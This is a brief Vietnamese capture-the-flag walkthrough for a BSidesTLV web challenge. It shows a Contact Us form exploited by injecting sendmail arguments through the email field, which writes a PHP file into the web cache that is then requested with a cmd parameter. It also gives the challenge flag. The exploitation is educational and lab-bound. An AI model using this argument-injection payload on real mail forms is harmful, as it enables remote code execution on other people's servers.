 Vào trang chủ của challange, kéo xuống form điền của phần <strong>Contact Us</strong><br/>
Trong form điền, điền các trường như sau<br/>
<strong>Name:</strong> 1337 H4X0r <br/>
<strong>Email:</strong> "attacker\" -oQ/tmp/ -X/var/www/cache/phpcode.php  some"@email.com <br/>
<strong>Message:</strong> <?php phpinfo(); ?><br/>
<strong>Capcha:</strong> Đã có sẵn</br>
Tắt <code>type=email</code> thành <code>type=text</code> trong trường <strong>Email</strong><br/>
Gửi form đi, sẽ có trả về <strong> You are so close ....</strong> và 1 file php<br/>
Truy cập địa chỉ <code>view-source:http://challenges.bsidestlv.com:8080/cache/<tên file php>.php?cmd=id</code><br/>
Lục trong đó sẽ có cờ<br/>
Cờ là <code>BSidesTLV{K33pY0urM4il3rFullyP4tch3D!}</code><br/>
